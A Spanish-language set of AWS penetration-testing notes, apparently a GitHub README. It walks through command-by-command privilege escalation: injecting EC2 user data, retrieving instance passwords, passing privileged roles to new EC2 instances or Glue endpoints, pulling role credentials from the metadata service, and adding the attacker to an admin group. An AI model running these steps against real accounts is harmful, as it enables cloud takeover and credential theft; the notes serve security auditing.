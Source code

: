 # Inyección de código en user data

El user data es una funcionalidad de AWS que permite proporcionar scripts o instrucciones que se ejecutan al iniciar la instancia.

#### Permisos necesarios

- ec2:StopInstances
- ec2:ModifyInstanceAttribute
- ec2:StartInstances

        import boto3
        
        # Crear un cliente de EC2
        ec2_client = boto3.client('ec2')
        
        # Definir el ID de la instancia EC2
        instance_id = 'i-1234567890abcdef0'
        
        # Detener la instancia EC2
        ec2_client.stop_instances(InstanceIds=[instance_id])
        
        # Modificar los datos de usuario de la instancia EC2 para ejecutar comandos maliciosos
        user_data_script = '#!/bin/bash\n\nmalicious_command\n'
        ec2_client.modify_instance_attribute(
            InstanceId=instance_id,
            UserData={'Value': user_data_script}
        )
        
        # Iniciar la instancia EC2
        ec2_client.start_instances(InstanceIds=[instance_id])


# Recuperación de contraseñas de un EC2

#### Permisos requeridos

- ec2:GetPasswordData

        import boto3
        
        def retrieve_ec2_password(instance_id):
            # Crear un cliente de EC2
            client = boto3.client('ec2')
            
            # Recuperar los datos de la contraseña para la instancia dada
            response = client.get_password_data(InstanceId=instance_id)
            
            # Devolver los datos de la contraseña
            return response['PasswordData']

# CreateEC2WithExistingIP

Para este ataque el usuario malicioso creará una nueva instancia de EC2 a la que tendrá acceso y le transferirá un rol de servicio/perfil con permisos privilegiados de una instancia existente.

#### Permisos requeridos:

- iam:PassRole
- ec2:RunInstances

#### Se necesitará:

- imagen AMI
- tipo de instancia
- IAM instance profile: Nombre o ARN de un perfil de instancia de IAM con privilegios elevados.
- Key-name: CLave ssh (creadas por nosotros)
- Id de un security group

        aws ec2 run-instances --image-id <ami> --instance-type t2.micro --iam-instance-profile Arn=<arn> --key-name "<nombre_del_archivo_key>" --security-group-ids <id_security_group> --region <region> --profile <perfil_atacante>


##### Una vez creada, buscaremos información de la instancia para obtener la ip pública

        aws ec2 describe-instances --instance-id <id> --region <region> --profile <perfil_atacante>

##### Accedemos a la instancia por medio de SSH

        ssh ec2-user@35.175.174.111 -i RSA

##### Una vez adentro de la EC2 listamos nuestros privilegios para ver si se asignó el rol

        aws sts get-caller-identity
##### Si el rol es de administrador, podemos sumar a nuestro usuario a la el grupo de administradores y continuar auditando

        aws iam add-user-to-group --group-name <grupo_admins> --user-name <user_atacante>

# PassExistingRoleToNewGlueDevEndpoint

El fin de este ataque es crear un entorno de desarrollo al que adjuntaremos un rol elevado. Luego aprovecharemos esta instancia para consultar los metadatos y extraer las credenciales del rol para luego impersonarlo.

#### Permisos necesarios

- iam:PassRole 
- glue:CreateDevEndpoint
- glue:GetDevEndpoints

##### 1) Creamos una llave SSH

        ssh-keygen

##### 2) Creamos el endpoint de desarrollo

        aws glue create-dev-endpoint --endpoint-name privesctest --role-arn <ARN_rol_a_adjuntar> --public-key file:///home/hacker/.ssh/id_rsa.pub --profile <perfil_atacante>

##### 3)Colectamos el ip público de la instancia

        aws glue get-dev-endpoint --endpoint-name privesctest --profile <perfil_atacante>

##### 4) Nos conectamos por ssh

        ssh glue@ec2-18-119-9-156.us-east-2.compute.amazonaws.com -i /home/hacker/.ssh/id_rsa

##### 5) hacemos un curl a la api interna para obtener las credenciales de un rol

        curl http://169.254.169.254/latest/meta-data/iam/security-credentials/<rol>

##### 6) Creamos un nuevo perfil en una nueva consola de AWS y nos logueamos con las credenciales y agregamos a nuestro user al grupo con privilegios

        aws iam add-user-to-group --group-name <grupo_admins> --user-name <user_atacante>

        


        
